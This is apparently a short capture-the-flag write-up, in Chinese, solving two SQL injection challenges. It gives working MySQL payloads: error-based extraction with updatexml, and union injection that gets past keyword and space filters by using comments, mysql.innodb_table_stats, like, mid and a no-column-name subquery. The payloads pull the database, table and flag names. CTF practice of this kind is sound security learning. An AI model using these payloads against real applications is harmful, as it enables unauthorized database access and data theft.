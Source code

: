 还是sql注入，报错注入

```
<!--SELECT * FROM users WHERE id='$id' LIMIT 0,1-->
```

```
1' and (select updatexml(1,concat(0x7e,(select database()),0x7e),1))--+
```

```
1' and (select updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1))--+
```

```
1' and (select updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name="test_tb"),0x7e),1))--+
```

```
正常读只能出一半，加个substr

1' and (select updatexml(1,concat(0x7e,(select substr(flag,1,20) from test_tb),0x7e),1))--+

1' and (select updatexml(1,concat(0x7e,(select substr(flag,20,40) from test_tb),0x7e),1))--+
```



### sql

过滤了空格，用/**/绕过

```
-1'union/**/select/**/1,2,database()%23
```

过滤了or,information用不了，改用InnoDB

过滤了=,改用like

```
-1'union/**/select/**/1,2,group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name/**/like/**/database()%23
```

得到表名`LTLT_flag`

然后无列名注入

```
-1'union/**/select/**/1,2,group_concat(`2`)/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/LTLT_flag)x%23
```

substr被ban了，用mid

```
-1'union/**/select/**/1,2,group_concat(mid(`2`,20,40))/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/LTLT_flag)x%23
```
